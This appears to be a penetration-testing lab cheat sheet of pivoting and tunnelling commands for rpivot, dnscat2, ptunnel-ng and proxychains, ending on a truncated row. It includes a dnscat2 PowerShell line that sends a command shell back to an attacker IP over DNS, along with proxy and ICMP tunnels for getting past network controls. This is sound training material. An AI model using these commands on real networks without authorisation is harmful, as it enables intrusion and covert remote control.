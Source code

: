 ***

## **Rpivot Pivoting**

| Command                                                                        | Description                                                                                                                       |
| ------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------- |
| `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0` | Used to run the rpivot server (`server.py`) on proxy port `9050`, server port `9999` and listening on any IP address (`0.0.0.0`). |
| `scp -r rpivot ubuntu@<IPaddressOfTarget>`                                     | Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target.                          |
| `sudo git clone https://github.com/klsecservices/rpivot.git`                   | Clones the rpivot project GitHub repository.                                                                                      |
| `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999`               | Used to run the rpivot client (`client.py`) to connect to the specified rpivot server on the appropriate port.                    |

***

## **DNSCat Pivoting**

| Command                                                                                                                        | Description                                                                                                                                                                                      |
| ------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git`                                                              | Clones the dnscat2-powershell project Github repository.                                                                                                                                         |
| `Import-Module dnscat2.ps1`                                                                                                    | PowerShell command used to import the dnscat2.ps1 tool.                                                                                                                                          |
| `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd` | PowerShell command used to connect to a specified dnscat2 server using a IP address, domain name and preshared secret. The client will send back a shell connection to the server (`-Exec cmd`). |
| `dnscat2> ?`                                                                                                                   | Used to list dnscat2 options.                                                                                                                                                                    |
| `dnscat2> window -i 1`                                                                                                         | Used to interact with an established dnscat2 session.                                                                                                                                            |

***

## **PTunnel-NG Pivoting**

| Command                                                         | Description                                                                                             |
| --------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `git clone https://github.com/utoni/ptunnel-ng.git`             | Clones the ptunnel-ng project GitHub repository.                                                        |
| `sudo ./autogen.sh`                                             | Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files.                 |
| `sudo ./ptunnel-ng -r10.129.202.64 -R22`                        | Used to start the ptunnel-ng server on the specified IP address (`-r`) and corresponding port (`-R22`). |
| `sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22` | Used to connect to a specified ptunnel-ng server through local port 2222 (`-l2222`).                    |

***

## **Others**

| Command                                                                                                                                                                      | Description                                                                                                                                                                               |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| proxychains firefox-esr :80                                                                                                                                                  | Open firefox with Proxychains and send the web request through a SOCKS proxy server to the specified destination web server.                                                              |